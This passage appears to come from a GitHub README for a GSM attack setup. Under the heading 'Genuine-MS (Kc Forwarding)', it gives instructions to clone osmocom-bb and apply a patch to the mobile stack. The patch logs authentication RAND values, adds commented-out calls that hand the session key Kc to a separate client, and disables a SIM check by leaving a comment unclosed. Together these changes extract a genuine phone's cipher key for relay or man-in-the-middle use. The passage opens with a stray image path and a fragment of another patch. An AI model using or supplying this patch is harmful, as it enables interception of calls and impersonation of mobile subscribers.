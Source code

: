 ``` {.sourceCode .patch}

        return 0;
```

Genuine-MS (Kc Forwarding)
==========================

Patch osmocom-bb

``` {.sourceCode .bash}
git clone https://github.com/osmocom/osmocom-bb
git checkout fixeria/trxcon
```

``` {.sourceCode .patch}
diff -ru trx/src/host/layer23/src/mobile/gsm48_mm.c osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c
--- trx/src/host/layer23/src/mobile/gsm48_mm.c  2022-08-30 16:41:37.076916961 +0200
+++ osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:51:17.267099639 +0200
@@ -1651,6 +1651,7 @@
     */
    if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
        no_sim = 1;
+   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (rand %s)\n", osmo_hexdump(ar->rand,16));  
    gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

    /* wait for auth response event from SIM */
diff -ru trx/src/host/layer23/src/mobile/subscriber.c osmocom-bb/src/host/layer23/src/mobile/subscriber.c
--- trx/src/host/layer23/src/mobile/subscriber.c    2022-08-30 16:41:37.076916961 +0200
+++ osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:51:17.267099639 +0200
@@ -32,7 +32,7 @@
 #include <osmocom/bb/common/sap_proto.h>
 #include <osmocom/bb/common/networks.h>
 #include <osmocom/bb/mobile/vty.h>
-
+#include "client.h"
 /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
  * if list is changed, the result is not written back to SIM */
 //#define TEST_EMPTY_FPLMN
@@ -369,6 +369,7 @@

    /* key */
    memcpy(subscr->key, data, 8);
+   //client(osmo_hexdump(subscr->key,8));

    /* key sequence */
    subscr->key_seq = data[8] & 0x07;
@@ -907,7 +908,7 @@
    struct msgb *nmsg;
    struct sim_hdr *nsh;

-   /* not a SIM */
+   /* not a SIM
    if (!GSM_SIM_IS_READER(subscr->sim_type)
     || !subscr->sim_valid || no_sim) {
        struct gsm48_mm_event *nmme;
@@ -944,6 +945,7 @@

        /* store sequence */
        subscr->key_seq = key_seq;
+       //client(osmo_hexdump(vec->kc,8));
        memcpy(subscr->key, vec->kc, 8);

        LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
```